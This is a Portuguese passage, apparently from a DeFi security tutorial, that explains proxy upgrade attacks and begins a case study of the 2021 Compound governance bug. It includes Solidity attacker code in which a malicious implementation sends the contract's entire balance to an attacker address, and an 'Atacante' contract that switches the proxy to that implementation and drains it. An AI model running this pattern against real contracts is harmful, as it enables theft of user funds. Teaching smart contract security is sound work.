 ```solidity
        // Drena fundos após upgrade
        (bool sucesso, ) = atacante.call{value: address(this).balance}("");
        require(sucesso, "Falha");
    }
}
```

**Como o ataque funciona?**  
- O atacante compromete a chave do `admin` (ex.: via phishing) ou manipula uma votação de governança.  
- Chama `upgradeTo`, apontando o proxy para `ImplementacaoMaliciosa`.  
- Usa `sacarTudo` para drenar os fundos do contrato.  
- **Variante**: A nova implementação introduz bugs (ex.: reentrância) que o atacante explora posteriormente.  

**Contrato Atacante (Hipotético)**:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Atacante {
    ProxyVulneravel public proxy;

    constructor(address _proxy) {
        proxy = ProxyVulneravel(_proxy);
    }

    function atacar(address implementacaoMaliciosa) public {
        // Assume que atacante tem chave do admin
        proxy.upgradeTo(implementacaoMaliciosa);
        // Chama função maliciosa via proxy
        (bool sucesso, ) = address(proxy).call(abi.encodeWithSignature("sacarTudo()"));
        require(sucesso, "Falha");
    }
}
```

**Por que é perigoso?** Contratos proxy são comuns em DeFi para permitir atualizações, mas a transparência da blockchain expõe funções de upgrade. Chaves de admin comprometidas ou governanças frágeis (ex.: DAOs manipuladas por flash loans) tornam upgrades um ponto crítico. Em 2024, **75% dos hacks** (A01) envolveram falhas de acesso, muitas ligadas a upgrades.

---

## **Casos Reais: Compound Hack (2021) e Audius Hack (2022)**

### **Compound Hack (2021)**  
- **Contexto**: Compound, um protocolo DeFi de empréstimos na Ethereum, usava um sistema de governança para aprovar upgrades em seus contratos. Gerenciava bilhões em TVL.  
- **Ataque**: Uma proposta de upgrade na governança introduziu um erro que permitiu saques indevidos.  
- **Como funcionou?**:  
  - A proposta 062 atualizou a lógica do contrato `Comptroller`, mas continha um erro aritmético que permitia aos usuários reivindicar **COMP tokens** em excesso.  
  - Usuários (ou atacantes) exploraram a falha, drenando **US$ 80 milhões** em tokens.  
  - Não foi um ataque malicioso intencional, mas um upgrade mal auditado.  
- **Impacto**:  
  - Perda de US$ 80M, abalando a confiança no Compound.  
  - Reforçou a necessidade de auditorias rigorosas em upgrades.  
  - A governança foi pausada para correções.  
- **Lição**:  
  - Audite minuciosamente novas implementações.  
  - Use governança multi-sig ou com delays para upgrades.  